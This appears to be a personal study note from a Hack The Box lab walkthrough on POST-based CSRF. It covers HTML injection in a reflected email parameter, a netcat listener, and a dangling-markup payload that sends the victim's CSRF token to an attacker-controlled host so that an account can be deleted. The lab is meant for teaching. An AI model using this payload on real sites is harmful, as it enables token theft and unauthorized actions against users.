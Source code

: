 ```yaml
---
title: g-POST Based CSRF
draft: false
tags:
  - csrf
---
```

The vast majority of applications nowadays perform actions through POST requests. Subsequently, CSRF tokens will reside in POST data. Let us attack such an application and try to find a way to leak the CSRF token so that we can mount a CSRF attack.

## Exploit

> Log-in to vulnerable web app. You can delete your account.

Let's see how one could steal the user's CSRF-Token by exploiting an HTML injection/XSS vulnerability.

Click on the "Delete" button. You will get redirected to `/app/delete/<your-email>`

Notice that the email is reflected on the page. Let us try inputting some HTML into the _email_ value, such as:

```html
<h1>h1<u>underline<%2fu><%2fh1>
```

Above actually underlined.

If you inspect the source (`Ctrl+U`), you will notice that our injection happens before a `single quote`. We can abuse this to leak the CSRF-Token.

Let us first instruct Netcat to listen on port 8000, as follows.

```shell-session
jadu101@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...
```

Now we can get the CSRF token via sending the below payload to our victim.

```html
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```

While still logged in as Julie Rogers, open a new tab and visit `http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`. You will notice a connection being made that leaks the CSRF token.

